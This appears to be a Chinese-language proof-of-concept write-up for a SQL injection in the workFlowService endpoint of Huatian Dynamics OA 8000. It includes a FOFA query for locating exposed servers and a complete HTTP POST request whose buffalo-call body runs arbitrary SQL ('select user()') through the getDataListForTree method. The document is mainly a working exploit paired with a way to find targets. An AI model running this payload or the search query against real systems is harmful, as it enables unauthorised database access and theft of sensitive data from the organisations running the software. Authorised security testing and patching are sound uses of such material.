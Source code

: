 # 华天动力oa SQL注入

## 1.漏洞描述

华天动力OA 8000版 workFlowService接口存在SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

## 2.搜索语法

```plain
fofa：app="华天动力-OA8000"
```

## 3.漏洞复现

```plain
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0

<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```

响应包显示如下

![image](https://github.com/hardog123/poc-exp/assets/170905460/60587f5e-ff2d-42ca-8cc1-eb61a09f1551)
